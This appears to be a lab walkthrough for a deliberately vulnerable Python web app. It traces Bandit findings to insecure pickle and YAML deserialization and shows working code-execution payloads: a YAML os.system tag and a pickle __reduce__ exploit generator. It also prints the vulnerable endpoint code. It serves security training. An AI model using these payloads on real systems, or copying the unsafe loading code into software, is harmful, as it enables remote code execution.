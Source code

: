 # Insecure deserialization

Serialization is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications. Deserialization is the reverse of that process -- taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.


#### spoiler 1 - discovery

There are a lot of ways to do your reconnaissance when performing a penetration test.
However, in this context we have the source code available!

So why not take advanteage of that?

First lets try to run a bandit scan against the application source code!

Bandit is a tool designed to find common security issues in Python code. To do this Bandit processes each file, builds an AST from it, and runs appropriate plugins against the AST nodes. Once Bandit has finished scanning all the files it generates a report.

Installing Bandit is as easy as:

```
pip install bandit
# Or if you're working with a Python 3 project
pip3 install bandit
```

And to run we simply do:

```
bandit -r path/to/your/code
```

Now after running bandit from the results we can find 2 things that should spark out interest such as:

```
>> Issue: [B301:blacklist] Pickle and modules that wrap it can be unsafe when used to deserialize untrusted data, possible security issue.
   Severity: Medium   Confidence: High
   Location: target/project/controllers/About.py:15
   More Info: https://bandit.readthedocs.io/en/latest/blacklists/blacklist_calls.html#b301-pickle
14	        with open('../filename.pickle', 'rb') as handle:
15	            a = pickle.load(handle)
16	        return render_template("about/index.html", content = a)
```

and

```
>> Issue: [B506:yaml_load] Use of unsafe yaml load. Allows instantiation of arbitrary objects. Consider yaml.safe_load().
   Severity: Medium   Confidence: High
   Location: target/project/controllers/Information.py:16
   More Info: https://bandit.readthedocs.io/en/latest/plugins/b506_yaml_load.html
15	            yaml_file = base64.b64decode(input)
16	            content = yaml.load(yaml_file)
17	    except:
```

Now we can look into these files and start tracing them in the web application

#### Spoiler 2 - Discovery && exploitation YAML

When we first authenticate to the application and we start browsing it we find the following page:

```
http://0.0.0.0:8081/information/eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWNhdGlvbiwgdXBkYXRlcyBjb21taW5nIHNvb24h
```

As we can see this link has some base64 encoded string in it, so we decode it to see what it is.

```
Input: eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWNhdGlvbiwgdXBkYXRlcyBjb21taW5nIHNvb24h
Output: yaml: The information page is still under construcation, updates comming soon!
```

This ouput reflects what is being shown in the applications page.
This is a great indicator that there is a function that parses yaml and prints 
the contents on the screen.

Now, if we do some research on the internet we find that pythons yaml allows instantiation of arbitrary objects.
After some more research we can than finally construct the following payload.

```
yaml: !!python/object/apply:os.system ["sleep 10"]
```

with this payload we perform an system command which initiates a sleep command.
Now, if the server takes some time to get back to us we know our injection
was succesfull.

This attack could than ultimately be used to create reverse shell connections or
something similar!


#### Spoiler 3 - discovery && exploitation PICKLE

The Pickle exploit might be somewhat harder to discover.
It is more likely to discover these types of vulnerabilities when you can perform
a static/manual code review. 

the pickle vulnerability is located at:

```
http://0.0.0.0:8081/about
```

To be able to exploit this vulnerability we need to send our own serialized
object to the application to ultimately perform a code execution attack

To be able to craft a succesfull exploit we first have to determine how the object is deserialized.

```
@app.route("/about/sync", methods=['POST'])
def deserialization_pickle():
        with open("../pickle.hacker", "wb+") as file:
            att = request.form['data_obj']
            attack = bytes.fromhex(att)
            file.write(attack)
            file.close()
        with open('../pickle.hacker', 'rb') as handle:
            a = pickle.load(handle)
            print(attack)
            return render_template("about/index.html", content = a)
```

As we can see it is just a simple "pickle.load()"

Now we want to serialize our own class with our arbitrary code execution and convert that to 
hex since the class that deserializes the attack reads the bytes from hex.

The code that is ultimately responsible for generating the exploit code wil look something like:

```
import pickle
import os
import base64
import binascii 

class RunBinSh(object):
  def __reduce__(self):
    return (os.system,('sleep 5',))

print(binascii.hexlify(pickle.dumps(RunBinSh())))
```

if we run the output against the application we can determine by the effective response time
of the application if the code execution was successfull.
